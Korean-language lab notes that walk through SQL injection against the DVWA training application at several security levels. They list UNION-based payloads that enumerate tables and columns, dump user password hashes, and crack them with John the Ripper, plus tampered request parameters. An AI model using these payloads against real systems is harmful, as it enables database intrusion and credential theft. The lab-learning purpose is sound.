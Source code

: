 	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: slow_log
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: tables_priv
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: time_zone
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: time_zone_leap_second
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: time_zone_name
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: time_zone_transition
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: time_zone_transition_type
	
	ID: 5' union select 1,table_name from information_schema.tables#  
	First name: 1  
	Surname: user
	```
	- table_name에는 DB에 사용되는 table들의 이름들이 모두 저장되도록 sql에서 기본 설정되어 있기 때문에 사용자가 임의의 작업을 하지 않았다면 테이블 이름들을 확인 할 수 있다.
- `5' union select 1,table_name from information_schema.tables where table_schema='dvwa'#` > dvwa DB의 테이블만 가져오는 구문![[Pasted image 20241008113053.png]]
- `5' union select 1, column_name from information_schema.columns where table_name='users'#`![[Pasted image 20241008113428.png]]
- user / password 칼럼의 정보를 열람하면 로그인 또한 가능할 것 같다.
- `5' union select user, password from dvwa.users#`![[Pasted image 20241008114000.png]]패스워드가 암호화 되어 있어 크랙 툴이 필요하다
- 일괄 hashing 코드 작성
![[Pasted image 20241008114438.png]]
- 암호화 정보 확인![[Pasted image 20241008114729.png]]![[Pasted image 20241008114842.png]]
- 일괄 암호화 크랙킹`john --format=Raw-MD5 users.txt`![[Pasted image 20241008115126.png]]
low
![[Pasted image 20241008120843.png]]
- 값을 받고 출력하는 기능만 있다.(보안 관련 코드가 없다.)

medium
![[Pasted image 20241008121104.png]]![[Pasted image 20241008121154.png]]
`id=1&Submit=Submit` 에 값을 변조하는 방법으로 sql injection을 테스트 할 수 있다.
- `id=1 or 1=1&Submit=Submit`![[Pasted image 20241008121318.png]]
- `id=1 or 1=1 union select user,password from dvwa.users&Submit=Submit`![[Pasted image 20241008121737.png]]
![[Pasted image 20241008121836.png]]
\
high
![[Pasted image 20241008121937.png]]
![[Pasted image 20241008121953.png]]
- 세션으로 검증하는 기능이 추가됨
![[Pasted image 20241008122147.png]]
- 하지만 주석에 대해서는 아직 취약하다